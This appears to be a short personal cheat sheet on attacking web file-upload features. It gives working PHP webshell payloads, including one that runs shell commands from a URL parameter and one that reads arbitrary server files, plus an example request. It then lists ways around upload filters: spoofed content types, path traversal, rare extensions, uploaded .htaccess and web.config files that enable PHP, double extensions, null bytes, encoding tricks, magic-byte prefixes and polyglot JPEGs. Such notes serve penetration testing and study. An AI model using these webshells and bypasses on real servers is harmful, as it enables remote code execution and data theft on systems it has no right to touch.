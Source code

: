 # file upload
when files are uploaded
and not checked

its possible to upload fe a webshell
and then acces the webshell

## uploads
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
xample/exploit.php?command=id HTTP/1.1

## formdata
sometimes it only checks if a content type is image/png or something
you can ez do it in burpsuite
or with js see "script/file_upload_blob.js" you could just execute this in console

## path traversal
sometimes using path traversal techniques can be used in the filename

## extensions
or filename extension of lesser known could be used
.php5
.shtml

## server side preventions
some config files are used to prevent access or execution of certain files
these might be interesting to try to retrieve if possible 
if we can upload these than we can even let files we are able to upload fe allow php to work

web.config:
`<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers>
            <!-- Add handler to process PHP files -->
            <add name="PHP-FastCGI" path="*.php" verb="*" modules="FastCgiModule" scriptProcessor="C:\path\to\php\php-cgi.exe" resourceType="Either" requireAccess="Script" />
        </handlers>
    </system.webServer>
</configuration>`


.htaccess:
`AddHandler application/x-httpd-php .php`

## file name obfuscation
using multiple extensions
.php.jpg

trailing characters
.php.

encoding
%2Ephp

null byte characters maybe with encoding
.php;.jpg
.php%00.jpg

if replacing things and its not recursive
.ph.phpp

## filecontent
might be that a server will get the widht en height of image,
ofc with a script its not possible

or first bytes of a file need to be those of a image format
then magicbytes can be added in the beginning of a script to bypass this
jpeg: FF D8 FF

using exiftool trivial malicious code could be stored in a jpgs metadata:polyglot JPEG
